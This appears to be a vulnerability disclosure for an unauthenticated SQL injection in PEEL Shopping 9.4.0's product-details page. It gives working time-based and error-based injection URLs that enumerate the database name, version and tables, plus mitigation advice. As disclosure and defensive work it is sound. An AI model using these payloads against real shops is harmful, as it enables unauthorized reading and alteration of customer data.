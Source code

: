 **Vulnerability Name:** SQL Injection in "_produit_details.php?id_" parameter

**Date of Discovery:** 10 July 2021 

**Product version:** 9.4.0 . [Download link](https://www.peel.fr/modules/telechargement/telecharger.php?id=7)

**Author:** faisalfs10x

**Vulnerability Description:** Public user/guest (unauthenticated) can inject malicious SQL query in order to affect the execution of predefined SQL commands via the "_id_" parameter on the "_/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_" endpoint. Upon successful of SQL injection attack, attacker can read sensitive data from the database or modify database data.

**Vulnerable URL:** _http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_

**Proof of Concept:**

**1)** Assumed peel-shopping_9_4_0 out of box installation database name is _peel_. This query will check if _database()_ name like _hex(%peel%)_ - it will delay for 7 seconds before redirect to homepage (http://localhost/peel-shopping_9_4_0/) that indicates TRUE SQL statement which mean the database name like "_peel_".

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(7-(IF(DATABASE()+LIKE+0x257065656c25,0,5)))))FSXX) 

[PoC enum db name]
![enum_dbname](https://user-images.githubusercontent.com/51811615/125202026-5ac05480-e2a4-11eb-8aa8-0bd79718769f.png)


**2)** Assumed the web is using MariaDB database server - check if db_version like _hex(%MariaDB%)_, it will delay for 5 seconds if TRUE.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(5-(IF(VERSION()+LIKE+0x254d61726961444225,0,5)))))FSXX)

[Poc enum MariaDB]
![enum_dbversion(MariaDB)](https://user-images.githubusercontent.com/51811615/125202107-b68add80-e2a4-11eb-8b16-5f03eedcb275.PNG)


**3)** By default, the database have a table name = peel_produits. This query will check if table_name _peel_produits_ is exist, it will delay for 10 seconds if TRUE, else will redirect to homepage instantly.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(10-(IF(EXISTS(SELECT+3+FROM+peel.peel_produits),0,5)))))FSXX)

[PoC enum table peel_produits]
![enum_tablename](https://user-images.githubusercontent.com/51811615/125202148-d91cf680-e2a4-11eb-95fe-5dd3c633f285.png)


To produce SQL syntax error, it is possible to intercept the request before it is redirect to homepage using a tool like BurpSuite (repeater).

**Error syntax:** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELdECT(SLEEP(3-(IF(USER()+LIKE+0xGEN_ERROR,0,5)))))ERR)

1. [MariaDB disclosed image]
![sql_error_mariadb](https://user-images.githubusercontent.com/51811615/125202162-e934d600-e2a4-11eb-8a08-9086e37f1706.png)

2. [peel_produits table_name disclosed]
![sql_errorbased2](https://user-images.githubusercontent.com/51811615/125202167-efc34d80-e2a4-11eb-9158-a66b2297eff3.png)

**Dump table name = peel_profil**

![dump_table_peel_profil](https://user-images.githubusercontent.com/51811615/125201991-2b114c80-e2a4-11eb-9c16-3a5197bcb51a.PNG)


**Consequences:** 

- Confidentiality: Since SQL databases generally hold sensitive data, loss of confidentiality is a frequent problem with SQL Injection vulnerabilities.
- Integrity: Just as it may be possible to read sensitive information eg client/customer sensitive data, it is also possible to make changes or even delete this information with a SQL Injection attack.

**Mitigation:** Use of Prepared Statements (with Parameterized Queries). It would be good also to casting integer to ensure only numerical data is inserted in 'id' parameter eg - intval($_GET['id'])

**References for Mitigation Vulnerability:** https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

**References:** https://github.com/advisto/peel-shopping/issues/3

